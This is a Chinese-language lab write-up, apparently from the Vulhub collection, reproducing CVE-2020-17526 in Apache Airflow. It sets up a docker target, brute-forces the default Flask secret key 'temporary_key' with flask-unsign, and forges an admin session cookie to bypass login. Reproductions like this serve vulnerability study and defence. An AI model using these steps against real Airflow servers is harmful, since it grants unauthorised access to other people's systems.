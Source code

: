 # Apache Airflow 默认密钥导致的权限绕过 CVE-2020-17526

## 漏洞描述

Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定`webserver.authenticate=True`来开启认证。

在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。

参考链接：

- https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
- https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise

## 环境搭建

Vulhub执行如下命令启动一个Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

首先，我们访问登录页面，服务器会返回一个签名后的Cookie：

```
curl -v http://localhost:8080/admin/airflow/login
```

![image-20220329105609442](images/202204251948002.png)

然后，使用[flask-unsign](https://github.com/Paradoxis/Flask-Unsign)这个工具来爆破签名时使用的`SECRET_KEY`：

```
# 安装flask-unsign
pip install flask-unsign[wordlist]

# 开始爆破
flask-unsign -u -c [session from Cookie]
```

![image-20220329105921359](images/202204251948003.png)

Bingo，成功爆破出Key是`temporary_key`。使用这个key生成一个新的session，其中伪造`user_id`为1：

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![image-20220329110052524](images/202204251948004.png)

新生成的session为：

```
eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.YkJ2WQ.sUbyyQy70a2A6FPd6fO6UVAyQ-U
```

在浏览器中使用这个新生成的session，可见已成功登录：

![image-20220329110946880](images/202204251948005.png)

可以使用Chrome插件[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=zh)对Cookie进行修改。


